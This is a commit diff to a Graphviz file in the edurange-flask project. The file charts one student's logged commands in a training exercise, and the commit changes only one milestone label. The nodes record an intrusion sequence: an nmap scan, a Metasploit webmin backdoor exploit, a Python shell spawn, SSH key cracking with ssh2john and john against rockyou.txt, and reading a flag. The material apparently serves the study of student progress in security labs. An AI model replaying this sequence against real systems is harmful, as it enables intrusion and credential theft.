

One commit to edurange/edurange-flask changed the diagram in log_analysis/kypo-git4/kypo_output_44_successes_graph.dot. Above: the diagram before and after it, drawn with Graphviz. The commit also changed 57 other files, not shown here.

Commit message:
Update Milestones, upload Box and Whisker Graph

```diff
--- a/log_analysis/kypo-git4/kypo_output_44_successes_graph.dot
+++ b/log_analysis/kypo-git4/kypo_output_44_successes_graph.dot
@@ -1,96 +1,96 @@
 // creating graph for user: 44
 digraph {
 	node [shape=box]
 	0 [label="nmap --help A0 A1 "]
 	1 [label="nmap -v 172.18.1.5 M0 "]
 	2 [label="msfconsole M2 "]
 	3 [label="search webmin M3 "]
 	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
 	5 [label="show options M5 "]
 	6 [label="set rhosts 172.18.1.5 A6 "]
 	7 [label="run M8 "]
 	8 [label="set lhost 10.1.135.83 A6 "]
 	9 [label="run M8 "]
 	10 [label="cd /root/.ssh A16 "]
 	11 [label="cd .ssh A16 "]
 	12 [label="ls A10 "]
 	13 [label="ls -la A10 "]
 	14 [label="ssh-keygen -t rsa A16 "]
 	15 [label="show options M5 "]
 	16 [label="run M8 "]
 	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
 	21 [label="ls -la A10 "]
 	22 [label="ls A10 "]
 	23 [label="ls -la A10 "]
-	24 [label="ls -a M10 "]
+	24 [label="ls -a A10 "]
 	25 [label="ls -l A10 "]
 	26 [label="ssh eve@10.1.17.4 --help M16 "]
 	27 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
 	29 [label="chmod key.eve 0644 A15 "]
 	30 [label="chmod 0644 key.eve A15 "]
 	31 [label="ls A10 "]
 	32 [label="chmod 0644 eve.key A15 "]
 	33 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
 	34 [label="sudo ssh -i eve.key eve@10.1.17.4 M16 "]
 	35 [label="chmod 0700 eve.key A15 "]
 	36 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
 	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
 	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
 	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
 	40 [label="ls A10 "]
 	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
 	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
 	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
 	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
 	45 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
 	46 [label="ls A10 "]
 	47 [label="ls -la A10 "]
 	49 [label="ls -la A10 "]
 	50 [label="cat flag.txt M17 "]
 	0 -> 1 [constraint=false]
 	1 -> 2 [constraint=false]
 	2 -> 3 [constraint=false]
 	3 -> 4 [constraint=false]
 	4 -> 5 [constraint=false]
 	5 -> 6 [constraint=false]
 	6 -> 7 [constraint=false]
 	7 -> 8 [constraint=false]
 	8 -> 9 [constraint=false]
 	9 -> 10 [constraint=false]
 	10 -> 11 [constraint=false]
 	11 -> 12 [constraint=false]
 	12 -> 13 [constraint=false]
 	13 -> 14 [constraint=false]
 	14 -> 15 [constraint=false]
 	15 -> 16 [constraint=false]
 	16 -> 17 [constraint=false]
 	17 -> 21 [constraint=false]
 	21 -> 22 [constraint=false]
 	22 -> 23 [constraint=false]
 	23 -> 24 [constraint=false]
 	24 -> 25 [constraint=false]
 	25 -> 26 [constraint=false]
 	26 -> 27 [constraint=false]
 	27 -> 29 [constraint=false]
 	29 -> 30 [constraint=false]
 	30 -> 31 [constraint=false]
 	31 -> 32 [constraint=false]
 	32 -> 33 [constraint=false]
 	33 -> 34 [constraint=false]
 	34 -> 35 [constraint=false]
 	35 -> 36 [constraint=false]
 	36 -> 37 [constraint=false]
 	37 -> 38 [constraint=false]
 	38 -> 39 [constraint=false]
 	39 -> 40 [constraint=false]
 	40 -> 41 [constraint=false]
 	41 -> 42 [constraint=false]
 	42 -> 43 [constraint=false]
 	43 -> 44 [constraint=false]
 	44 -> 45 [constraint=false]
 	45 -> 46 [constraint=false]
 	46 -> 47 [constraint=false]
 	47 -> 49 [constraint=false]
 	49 -> 50 [constraint=false]
 	rankdir=LR
 }
```
